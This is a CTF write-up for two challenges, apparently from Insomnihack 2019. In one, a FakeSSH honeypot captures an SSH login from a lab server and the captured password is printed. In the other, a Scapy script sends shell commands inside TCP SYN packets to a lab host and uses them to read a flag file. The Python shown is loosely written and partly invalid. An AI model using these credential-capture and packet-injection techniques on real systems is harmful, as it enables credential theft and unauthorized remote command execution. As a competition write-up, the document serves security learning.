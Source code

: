 KnockKnock
=====================================
It was not about attacking, but listening on the laptop.
There was a connection to port 22 from the server 10.13.37.99
Let's install a FakeSSH serveur :
git clone https://github.com/tylermenezes/FakeSSH

sudo pip install paramiko

cd FakeSSH
cp ./data/config.sample.json ./data/config.json
ssh-keygen -f ./data/rsa -m 'PEM' 
set no password

sudo python3 server.py

wait max 10min

![](https://github.com/k4nfr3/CTF-writeup/blob/master/2019-Insomnihack/fakessh_1.jpg)

ssh -l svc-tenable-linux 10.13.37.99
password = $\mx3i#u0@%6d@8fk^&^x*ntw2m

![](https://github.com/k4nfr3/CTF-writeup/blob/master/2019-Insomnihack/fakessh_2.jpg)

=========================================
Net1
==============

Hint 2 : RFC741x => RFC7413 = Use TCP SYN Data

ok, Let's try some Python Scapy with TCP-Syn Data
===========================
from scapy.all import *
def main(command):
    while True:
        # build the TCPSYN packet with the command as the payload
        pinger = IP(dst="10.13.37.98")
        SYN = TCP(sport=6666, dport=3258, flags='S', seq=1000)
        xsyn = pinger / SYN / command
        send(xsyn)
if __name__ == "__main__":
    main(ls -la)
 ====================================   
Trying to send some commands but nothing back from the server.

Hint : We got the password "SyN" at 1am

Ok, let's send some commands
main(SyN ls -la)
....
final command : main(SyN cat ./secret/me/not/flag.txt)

to find flag 
![](https://github.com/k4nfr3/CTF-writeup/blob/master/2019-Insomnihack/Net1.jpg)




